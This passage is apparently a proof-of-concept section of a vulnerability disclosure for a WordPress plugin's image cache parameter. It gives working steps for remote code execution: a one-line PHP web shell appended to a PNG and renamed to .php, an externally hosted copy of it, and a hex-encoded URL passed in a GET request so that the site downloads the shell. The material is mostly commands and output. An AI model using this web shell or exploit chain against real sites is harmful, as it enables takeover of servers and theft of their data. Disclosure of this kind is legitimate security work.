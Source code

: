 ### Proof of Concept (PoC)

1. Inject a `<php>` tag into an image file and rename the file to `.php`

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' >> rce.png
mv rce.png rce.php
```

```bash
❯ cat rce.php
�PNG
␦
IHD��Ud�tEXtSoftwaregnome-screenshot��>-tEXtCreation TimeSat 01 Nov 2025 02:58:29 PM +075����IDATH���A
� ��GHI��l��l�˅��K�n�D
�H)���a:kooܲ<`�u�o�
�{�3�9�1�~��      �9����P�1����R�!D>Lk���FT�r�|�Ru��	u��o'�`��?�!"��
2k���IEND�B`�<?php system($_REQUEST["cmd"]); ?>
```

2. Host the file somewhere on the internet on a domain different from the WordPress site, for example:

```
https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php
```

3. Hex-encode the URL (`https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php`)

```bash
❯ echo -n "https://github.com/w41bu1/w41test/raw/refs/heads/main/rce.php" | xxd -p
68747470733a2f2f6769746875622e636f6d2f7734316275312f773431746573742f7261772f726566732f68656164732f6d61696e2f7263652e706870
```

3. Send a GET request with param `podlove_image_cache_url=68747470733a2f2f6769746875622e636f6d2f7734316275312f773431746573742f7261772f726566732f68656164732f6d61696e2f7263652e706870`

![File Uploaded](file_uploaded.png "File uploaded successfully")

4. Access the created file and achieve RCE
